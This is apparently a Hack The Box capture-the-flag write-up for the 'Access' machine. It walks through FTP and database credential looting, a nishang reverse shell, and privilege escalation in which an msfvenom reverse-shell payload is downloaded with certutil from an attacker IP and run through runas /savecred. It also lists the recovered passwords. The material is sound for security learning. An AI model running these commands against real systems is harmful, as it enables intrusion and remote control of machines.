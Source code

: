 # Enumeration 
`export ip=10.129.146.151`
`nmap -sC -sV -v $ip -oA nmap/init`


## open ports

```
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE 
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### port 23
![[Pasted image 20230112182239.png]]

### Port 80
![[Pasted image 20230112182251.png]]



### Port 21

331 Anonymous access allowed, send identity (e-mail name) as password.
download all content inside ftp
`wget -m --no-passive ftp://anonympis:anonymous$ip`

![[Pasted image 20230112191219.png]]
archive is password protected
![[Pasted image 20230112192321.png]]


![[Pasted image 20230112182450.png]]
using mdbtools we can see what's inside the database file
```
mdb-tables backup.mdb

```
![[Pasted image 20230112191320.png]]
dumping table auth_user
`mdb-export auth_user`

![[Pasted image 20230112192149.png]]
Trying access4u@security and admin passwords on .zip file we found earlier
and access4u@security is valid

![[Pasted image 20230112192248.png]]

using readpst tool to read Acces Control.pst file
`readpst Access\ Control.pst`
now we get a readable .mbox file
`cat Access\ Control.mbox`

![[Pasted image 20230112193746.png]]
security:4Cc3ssC0ntr0ller trying to login using creds we found with telnet and we are in




# Foothold 

![[Pasted image 20230112194146.png]]

First let's get a better shell on the target using nishang reverse shell
![[Pasted image 20230112195433.png]]

# Privesc 

Uploading jaws to the target
`certutil -urlcache -f http://10.10.16.19/jaws.exe`

![[Pasted image 20230112202905.png]]

we can levrage that there is a stored administrator credentials and use it to run a reverse shell 
first we generate the shell and upload it to the target 

```
nc -lvnp 443 # start listener 

# generate payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.19 LPORT 4433 -f exe -o s.exe

certutil -urlcache -f http://10.10.16.19/s.exe s.exe # upload payload to the target
runas /savecred /user:ACCESS\Administrator "C:\Users\security\desktop\s.exe" # exploit
```
![[Pasted image 20230112203716.png]]
![[Pasted image 20230112204111.png]]

# Loot

Zip file creds:
	Password:access4u@security

telnet creds:
	Username:security
	Password:4Cc3ssC0ntr0ller


---
Tags: #ctf #HTB 
Resources: [Access](https://app.hackthebox.com/machines/156)
